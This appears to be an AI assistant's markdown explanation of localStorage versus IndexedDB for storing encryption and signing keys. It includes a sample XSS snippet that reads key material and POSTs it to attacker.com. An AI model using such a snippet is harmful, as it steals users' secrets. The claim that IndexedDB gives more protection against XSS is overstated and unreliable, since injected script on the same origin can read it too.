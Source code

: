 # Storage Security: localStorage vs IndexedDB

## 🔐 Your Question About localStorage

You're absolutely right to be concerned about localStorage security! Let me explain what I've implemented and why.

## ⚠️ localStorage Security Issues

**Why localStorage is vulnerable:**

1. **Accessible to any JavaScript**: Any script running on your page can read localStorage
2. **XSS Attacks**: If an attacker injects malicious JavaScript, they can steal everything
3. **No built-in encryption**: Data is stored in plain text
4. **Persistent**: Data stays even after closing the browser
5. **Same-origin only**: But doesn't protect against XSS on your own domain

**Example XSS attack:**
```javascript
// Malicious script injected via XSS
const stolenKeys = {
  encKey: localStorage.getItem('master_enc_sk'),
  signKey: localStorage.getItem('master_sign_sk')
};
// Send to attacker's server
fetch('https://attacker.com/steal', { 
  method: 'POST', 
  body: JSON.stringify(stolenKeys) 
});
```

## ✅ What I've Implemented: Secure Storage

I created `frontend/src/helpers/secureStorage.ts` which provides **significantly better security**:

### Security Improvements

1. **IndexedDB Instead of localStorage**
   - Better isolation from DOM
   - More protection against XSS
   - Asynchronous (doesn't block UI)

2. **Additional Encryption Layer**
   - Keys are encrypted before storage
   - Uses session-specific encryption key
   - Even if IndexedDB is compromised, data is encrypted

3. **Session-Based Protection**
   - Encryption key exists only in memory
   - Automatically cleared on page unload
   - Requires active session to decrypt

